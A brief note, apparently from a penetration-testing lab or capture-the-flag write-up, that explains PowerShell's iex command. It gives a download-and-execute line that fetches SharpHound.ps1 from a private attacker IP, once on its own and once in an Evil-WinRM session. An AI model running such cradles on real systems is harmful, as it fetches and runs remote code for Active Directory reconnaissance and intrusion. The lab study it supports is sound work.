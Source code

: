 Not case sensitive

Used to run a string as a PowerShell command. It takes a string as an argument and executes it as if it were a PowerShell command. This can be useful in scenarios where you need to dynamically generate and execute PowerShell code.

```sh
iex(new-object net.webclient).downloadstring('http://10.10.16.52/SharpHound.ps1')
```

```sh
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring('http://10.10.16.52/SharpHound.ps1')
```